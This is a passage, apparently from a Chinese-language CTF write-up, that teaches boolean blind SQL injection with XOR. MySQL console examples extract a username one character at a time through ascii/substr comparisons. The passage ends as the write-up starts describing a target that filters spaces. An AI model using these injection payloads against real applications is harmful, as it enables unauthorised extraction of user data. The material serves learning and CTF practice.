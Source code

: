 ```bash
mysql> select (select ascii(substr((select username from users limit 0,1),1,1))) > 65;
+-------------------------------------------------------------------------+
| (select ascii(substr((select username from users limit 0,1),1,1))) > 65 |
+-------------------------------------------------------------------------+
|                                                                       1 |
+-------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

#### 异或运算

==相同得0，不同得1==

```sql
mysql> select 0^0;
+-----+
| 0^0 |
+-----+
|   0 |
+-----+
1 row in set (0.00 sec)

mysql> select 0^1;
+-----+
| 0^1 |
+-----+
|   1 |
+-----+
1 row in set (0.00 sec)
```

以此配合上布尔盲注，当查询到的结果为True时，返回`1`，`0^1`依然为1

```sql
mysql> select 0^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65);
+------------------------------------------------------------------------------------+
| 0^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65) |
+------------------------------------------------------------------------------------+
|                                                                                  1 |
+------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select 1^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65);
+------------------------------------------------------------------------------------+
| 1^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65) |
+------------------------------------------------------------------------------------+
|                                                                                  0 |
+------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

#### 解题流程

首先这里做了基本尝试，发现做了非常严格的过滤，就连空格也被过滤了
